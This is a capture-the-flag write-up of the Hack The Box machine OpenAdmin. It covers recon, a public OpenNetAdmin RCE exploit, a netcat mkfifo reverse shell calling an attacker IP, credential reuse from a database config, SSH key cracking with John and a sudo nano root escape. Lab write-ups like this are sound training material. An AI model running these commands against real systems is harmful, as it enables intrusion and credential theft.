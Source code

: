 # OpenAdmin

## Nmap

```
sudo nmap 10.10.10.171 -p- -sS -sV

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Checking port 80 we find the root page directs us to the default Apache 2 install web page.

![http://10.10.10.171/](<../../../.gitbook/assets/image (1684) (1).png>)

Running dirsearch.py against the target we find multiple directories:

```
sudo python3 dirsearch.py -u http://10.10.10.171/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --full-url -t 75 
```

![](<../../../.gitbook/assets/image (1685).png>)

I manually looked through the discovered directories which pulled webpages. However I was unable to identify any interesting information contained in these pages.

I then started OWASP ZAP and ran a active spider against the site. ZAP soon picks up the sub page of /ona.

![](<../../../.gitbook/assets/image (1689).png>)

Browsing to /ona:

![http://10.10.10.171/ona/](<../../../.gitbook/assets/image (1690).png>)

We see from the header in the tab this is 'OpenNatAdmin'. From the webpage we can see we are running version v18.1.1

**What is OpenNetAdmin?**

OpenNetAdmin is a system for tracking IP network attributes in a database. A web interface is provided to administer the data, and there is a fully functional CLI interface for batch management (for those of you who prefer NOT to use a GUI). There are also several backend processes for building DHCP, DNS, router configuration, etc.

Checking `searchsploit` for known exploits we get results for a RCE.

![](<../../../.gitbook/assets/image (1691).png>)

Further exploit searching shows a reliable Python exploit for OpenNetAdmin:

{% embed url="https://github.com/amriunix/ona-rce" %}

Clone the respository:

```
sudo git clone https://github.com/amriunix/ona-rce.git 
```

Then execute the script:

```
python3 ona-rce.py exploit http://10.10.10.171/ona
```

![](<../../../.gitbook/assets/image (1692).png>)

Whilst we do have shell this one is bound to the current directory and as such we cannot easily navigate the target system. To resolve this first I checked available useful software on the target system.

```
which nmap aws nc ncat netcat nc.traditional wget curl ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc ctr runc rkt kubectl 2>/dev/null
```

![](<../../../.gitbook/assets/image (1696).png>)

Which shows `nc` as being on the target system. I then set a `netcat` listener on my attacking machine to port 443.

```
sudo nc -lvp 443
```

Then executed the following `netcat` reverse shell on the target system:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.29 443 >/tmp/f
```

![](<../../../.gitbook/assets/image (1697) (1).png>)

Now we have a full reverse shell. After some manual enumeration I found some interesting information in `/opt/ona/www/local/config/database_settings.inc.php`.

![](<../../../.gitbook/assets/image (1698).png>)

We have discovered the following MySQL credentials: `ona_sys:n1nj4W4rri0R!` We can also check for password reuse. Looking at the home directory we have two users: jimmy and joanna.

I tried using SSH as jimmy and was given access with the password above.

![](<../../../.gitbook/assets/image (1699).png>)

From here further enumeration again shows a directory named 'internal' only accessible to jimmy and members of the internal group.

![](<../../../.gitbook/assets/image (1700).png>)

Then the following files inside the directory:

![](<../../../.gitbook/assets/image (1701).png>)

Checking the contents of main:

![](<../../../.gitbook/assets/image (1702).png>)

Looks like when the PHP file is executed it will retrieve Joanna's SSH key. We know this directory is not under the normal port 80.

Checking `netstat` we see something is running locally on port 52846.

![](<../../../.gitbook/assets/image (1703).png>)

Running curl against the local port and main.php gives us a valid result.

```
curl http://127.0.0.1:52846/main.php
```

![](<../../../.gitbook/assets/image (1704) (1).png>)

Copy the key to the attacking machine and set correct key permissions:

```
chmod 600 id_rsa
```

As we can see from the line 'Proc-Type: 4,ENCRYPTED' we will need a password to authorize against the key when connecting over SSH.

We can use ssh2john.py we generate a hash from this keyfile then crack with John.

```
python2 /usr/share/john/ssh2john.py id_rsa > hash.txt
```

The crack with `John`.

```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt /home/kali/Desktop/hash.txt
```

![](<../../../.gitbook/assets/image (1705) (1).png>)

We can then use SSH and login as joanna after specifying and authorizing against the SSH key. Using the password found above in John to proceed when asked for a passphrase

```
ssh -i id_rsa joanna@10.10.10.171
```

![](<../../../.gitbook/assets/image (1706).png>)

Checking `sudo -l` for `sudo` privileges we see that we can run `/bin/nano /opt/priv` as anyone without providing a password.

![](<../../../.gitbook/assets/image (1707).png>)

Checking nano against [GTFOBins](https://gtfobins.github.io/gtfobins/nano/) we see we can spawn a shell with the nano binary.

![](<../../../.gitbook/assets/image (1708).png>)

To spawn a root shell run the following command:

```
sudo -u /bin/nano /opt/priv
```

When in a nano editor press the following keys:

```
CTRL+R
CTRL+X

Then when prompted paste and execute the following:

reset; sh 1>&0 2>&0
```

![](<../../../.gitbook/assets/image (1709).png>)

